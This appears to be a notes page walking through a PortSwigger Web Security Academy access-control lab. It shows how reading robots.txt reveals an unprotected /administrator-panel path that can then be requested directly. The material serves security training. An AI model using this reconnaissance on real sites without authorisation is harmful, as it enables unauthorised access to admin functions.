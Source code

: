 # 🔬 Vulnerability Labs

---

## [Access control vulnerabilities](https://portswigger.net/web-security/all-labs#access-control-vulnerabilities)

> 🌐 Resources 🔗
>
> - 📽️ [Broken Access Control (Long Version) - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISId4_l9YET7Gv29cHcNguq-)
> - [WSTG-ATHZ-02 - Testing for Bypassing Authorization Schema](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema)

### [Unprotected admin functionality](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

> Find the admin panel and delete the user `carlos`.
>

```bash
GET /robots.txt

# Response
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel
```

![](.gitbook/assets/2024-01-27_18-50-50_386.png)

```bash
GET /administrator-panel
```
